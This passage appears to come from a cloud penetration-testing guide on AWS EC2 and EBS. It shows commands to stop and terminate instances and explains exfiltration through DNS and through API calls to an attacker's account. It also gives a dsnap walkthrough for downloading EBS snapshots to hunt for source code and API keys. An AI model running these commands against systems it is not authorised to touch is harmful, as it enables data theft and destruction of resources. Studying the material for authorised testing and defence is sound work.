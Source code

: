 ```
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1 
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```

### Privesc

In the following page you can check how to **abuse EC2 permissions to escalate privileges**:

{% content-ref url="../../aws-privilege-escalation/aws-ec2-privesc.md" %}
[aws-ec2-privesc.md](../../aws-privilege-escalation/aws-ec2-privesc.md)
{% endcontent-ref %}

### DNS Exfiltration

Even if you lock down an EC2 so no traffic can get out, it can still **exfil via DNS**.

* **VPC Flow Logs will not record this**.
* You have no access to AWS DNS logs.
*   Disable this by setting "enableDnsSupport" to false with:

    `aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

### Exfiltration via API calls

An attacker could call API endpoints of an account controlled by him. Cloudtrail will log this calls and the attacker will be able to see the exfil data in the Cloudtrail logs.

## EBS

Amazon **EBS** (Elastic Block Store) **snapshots** are basically static **backups** of AWS EBS volumes. In other words, they are **copies** of the **disks** attached to an **EC2** Instance at a specific point in time. EBS snapshots can be copied across regions and accounts, or even downloaded and run locally.

Snapshots can contain **sensitive information** such as **source code or APi keys**, therefore, if you have the chance, it's recommended to check it.

### Checking a snapshot locally

```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```